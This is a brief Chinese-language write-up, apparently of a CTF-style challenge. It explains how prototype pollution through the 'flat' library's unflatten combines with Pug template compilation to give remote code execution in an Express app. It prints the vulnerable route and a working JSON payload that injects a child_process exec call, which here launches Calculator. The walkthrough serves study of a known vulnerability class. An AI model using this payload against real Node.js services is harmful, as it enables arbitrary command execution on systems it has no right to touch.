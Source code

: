 
  Attack example


express 开发的web服务，其中一个CGI如下：

```js
router.post('/api/submit', (req, res) => {
    const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello {user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});
```

本地跑起来后运行在1337端口：




 原型链污染

注意到这一行代码：

```js
const { song } = unflatten(req.body);
```

`unflatten` 这个库存在原型链污染

```js
var unflatten = require('flat').unflatten;
unflatten({ '__proto__.polluted': true });
console.log(this.polluted); // true
```

  AST Injection

注意到这一行代码：

```js
pug.compile('span Hello {user}, thank you for letting us know!')({ user:'guest' })
```

结合原型链污染，可以实现RCE

```json
{
       "song.name": "The Goose went wild", 
        "__proto__.block":{
            "type":"Text",
			"line":"process.mainModule.require('child_process').exec('/System/Applications/Calculator.app/Contents/MacOS/Calculator')" // 可以执行任意命令
		}
}
```


 参考
[https://blog.p6.is/AST-Injection/](https://blog.p6.is/AST-Injection/) 



